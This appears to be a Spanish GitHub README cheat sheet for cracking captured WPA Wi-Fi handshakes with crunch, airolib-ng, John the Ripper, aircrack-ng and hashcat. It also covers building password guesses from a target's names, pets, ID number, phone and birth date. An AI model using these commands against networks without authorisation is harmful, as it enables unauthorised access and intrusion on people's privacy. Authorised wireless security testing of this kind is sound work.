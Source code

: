 # WPACrack

## Requerimientos
- Aircrack-ng
- Crunch
- John
- Handshake

## Generadores
---

### Crunch
```bash
crunch {minCaracteres} {maxCaracteres} "{caracteresAUsar}" -o {nombreArchivo}
```
**Parametros:**

- (@) - minusculas, (,) - mayusculas, (%) - numeros, (^) - simbolos
- -d > Evita que se repitan caracteres en consecutivo usando (@,%^) ej. 2@
- -o > Nombre del archivo a guardar
- -t > patron para generar palabras usando (@,%^)

### Airolib

crear una lista de ESSIDs (los nombres de las redes), llamada {archivoESSIDs}

```bash
echo {nombreRed} >> {archivoESSIDs}
airolib-ng {nombreBD} --import essid {archivoESSIDs}
# Usando diccionario
airolib-ng {nombreBD} --import passwd {archivoClaves}
# Usando Crunch
crunch {minCaracteres} {maxCaracteres} "{caracteresAUsar}" --stdout | airolib-ng {nombreBD} --import passwd -
# Usando John
john -stdout -incremental -session:{nombreSesion} | airolib-ng {nombreBD} --import passwd -
airolib-ng {nombreBD} --batch
airolib-ng {nombreBD} --clean
airolib-ng {nombreBD} --clean all
```

### Ingeniería social

Generar contraseñas con palabras que relacionen al usuario
- **nombre/s** - apodos, abreviados
- **apellido/s** - apodos, abreviados
- **nombre mascotas**
- **numero de identificación** - adicionar 1 o 2 letras o símbolos mas
- **teléfono** - adicionar 1 o 2 letras o símbolos mas
- **fecha de nacimiento** - DDMM, MMDD, YYYY, DDMMYY, DDMMYYYY

### Claves genéricas

- [berzerk0/Probable-Wordlists](https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length)
- [danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)
- [CrackStation](https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm)
- [hackingyseguridad/diccionarios](https://github.com/hackingyseguridad/diccionarios) 
- [DragonJar](https://www.dragonjar.org/diccionario-claves-wpa-para-realizar-ataques-de-fuerza-bruta.xhtml)

## Proceso
---

### Aircrack con diccionario

```bash
aircrack-ng -w {ruta/nombreDiccionario} -b {macRouter} *.cap
```

### Aircrack con John

**Iniciar sesión de captura**

```bash
john -stdout -incremental -session:{nombreSesion} | aircrack-ng -b {macRouter} -w - {captura}.cap 
```
**Parametros de incremental**

- alnum > letras y numeros
- digits > solo numeros
- alpha > solo lertas
- vacio > letras, numeros y simbolos

[Documentacion](https://www.openwall.com/john/doc/OPTIONS.shtml)

**Restaurar sesión de captura**

```bash
john -restore:{nombreSesion} | aircrack-ng -b {macRouter} -w - {captura}.cap 
```

### Aircrack con Crunch

```bash
crunch {minCaracteres} {maxCaracteres} "{caracteresAUsar}" | aircrack-ng -b {macRouter} -w - {captura}.cap
```

### Aircrack con Airolib

```bash
aircrack-ng  -r {nombreBD} {captura}.cap
```
---
### Hashcat

Convertir .cap en hash [aquí](https://hashcat.net/cap2hashcat/)

### Hashcat con diccionario

```bash
hashcat -m 22000 {nuevoHash}.hc22000 {ruta/nombreDiccionario}
```
### Hashcat fuerza bruta

```bash
hashcat -m 22000 {nuevoHash}.hc22000 -a 3 ?d?d?d?d?d?d?d?d
```
### Hashat usando GPUHASH.me
https://gpuhash.me/